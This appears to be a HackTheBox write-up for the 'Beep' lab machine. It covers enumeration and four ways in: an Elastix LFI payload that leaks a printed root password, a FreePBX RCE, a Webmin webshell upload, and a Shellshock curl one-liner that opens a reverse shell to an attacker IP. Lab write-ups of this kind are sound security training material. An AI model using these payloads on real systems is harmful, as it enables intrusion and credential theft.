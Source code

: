 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Beep/logo.png
date: 2023-02-18 09:45:47+07:00
modified: 2023-02-18 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/1
  name: ch4p
tags: [Shellshock, Beep, LFI, RCE, Hackthebox, Writeup]
title: Beep - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.


# Fixes
Due to this machine's age and the outdated TLS version, issues emerge.
Before we move on, let's solve a couple of them.

### Firefox

![](https://photos.squarezero.dev/file/abir-images/Beep/21.png)

### Curl & gobuster 
-k, --insecure           Allow insecure server connections




# Enumeration

I begin as usual with a Nmap scan.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Beep/1.png)

Multiple ports are open. 

|Ports|Service
|:-------------:|:-------------:|
|22| ssh OpenSSH 4.3 (protocol 2.0)
|25| smtp
|80| Apache httpd 2.2.3
|110| pop3
|111| rpcbind
|143| imap
|443| Apache httpd 2.2.3
|3306| mysql
|10000| http MiniServ 1.570 (Webmin httpd)

Next, I used [Gobuster]() to find interesting directories.

`gobuster dir -u https://beep.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k`

![](https://photos.squarezero.dev/file/abir-images/Beep/2.png)


# Foothold + Privesc

## **Method 1 → LFI**

After visiting the website I have found a login page that use [Elastix]().

![](https://photos.squarezero.dev/file/abir-images/Beep/3.png)

I looked for possible exploits and found an LFI vulnerability. 

![](https://photos.squarezero.dev/file/abir-images/Beep/4.png)

You can find the full explanation in [ExploitDB](https://www.exploit-db.com/exploits/37637)

Payload →
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

After using the payload I found passwords for other portals.

![](https://photos.squarezero.dev/file/abir-images/Beep/5.png)

Next I tried to use ssh with following credential to get access.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/6.png)

## **Method 2 → Remote Code Execution **

When visiting `/admin` , It asks for password. If cancel is pressed it took me to [FreePBX]() page. 

![](https://photos.squarezero.dev/file/abir-images/Beep/7.png)

After logging in we get admin dashboard access.

`admin:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/8.png)

After researching for a little bit I found this vulnerability in [ExploitDB](https://www.exploit-db.com/exploits/18650)

In order for the exploit to work it requires a valid extension.

We can use [svmap]() to find SIP devices in the network and [svwar]() to bruteforce for valid extension.

We can use `INVITE` option to reveal all valid extensions.

![](https://photos.squarezero.dev/file/abir-images/Beep/9.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/10.png)

Afternatively I found the extension in the recordings dashboard as well.

![](https://photos.squarezero.dev/file/abir-images/Beep/11.png)

After finding the extension I found a shell in the system.

![](https://photos.squarezero.dev/file/abir-images/Beep/12.png)

## **Method 3 → FileUpload Code Execution**

In port 10000 I found [Webmin]() login page. I logged in with valid credentials and found the admin dashboard.

`root:jEhdIekWmdjE`

![](https://photos.squarezero.dev/file/abir-images/Beep/13.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/14.png)

There was already a commandshell option in the site. 

![](https://photos.squarezero.dev/file/abir-images/Beep/15.png)

There was also a file upload option in the website.

![](https://photos.squarezero.dev/file/abir-images/Beep/22.png)

I uploaded a webshell and after visiting the directory I can execute commands.

![](https://photos.squarezero.dev/file/abir-images/Beep/16.png)

![](https://photos.squarezero.dev/file/abir-images/Beep/17.png)

Then I got a revershell using the webshell I spawned. 

![](https://photos.squarezero.dev/file/abir-images/Beep/18.png)

## **Method 4 → ShellShock**

While exploring the website I found ![cgi-bin]](). 
This reminded me of [ShellShock]() vulnerability.

![](https://photos.squarezero.dev/file/abir-images/Beep/19.png)

I got a revershell using the vulnerability.

`curl -ks -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >& /dev/tcp/10.10.14.21/9999 0>&1;" https://beep.htb:10000`

![](https://photos.squarezero.dev/file/abir-images/Beep/20.png)

